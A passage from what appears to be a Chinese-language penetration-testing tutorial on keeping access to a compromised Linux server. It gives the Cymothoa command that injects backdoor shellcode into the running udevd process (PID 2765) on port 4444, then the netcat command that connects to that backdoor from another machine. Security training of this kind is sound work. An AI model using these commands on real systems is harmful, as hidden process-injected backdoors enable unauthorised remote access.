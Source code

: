 *   `USER`（第一栏）
*   `PID`（第二栏）
*   `COMMAND`（第十一栏）

![](img/8796c99d-334c-4e5c-ae36-5be189131ed9.png)

在本练习中，我们将注入`2765`（`udevd`）PID，并使用有效负载编号`1`。我们需要使用`-y`选项【端口号`4444`设置有效负载的端口号。以下是此场景的 Cymothoa 命令：

```
    ./cymothoa -p 2765 -s 1 -y 4444  
```

以下是此命令的结果：

![](img/5b628fca-ba34-4dbf-8a66-b9e23e78a142.png)

让我们通过发出以下命令，尝试从另一台机器登录我们的后门（端口`4444`）：

```
    nc -nvv 172.31.99.244 4444  
```

这里，`172.31.99.244`是目标服务器的 IP 地址。

结果如下：

![](img/326cb464-6131-4344-9903-18ad5f0389f2.png)
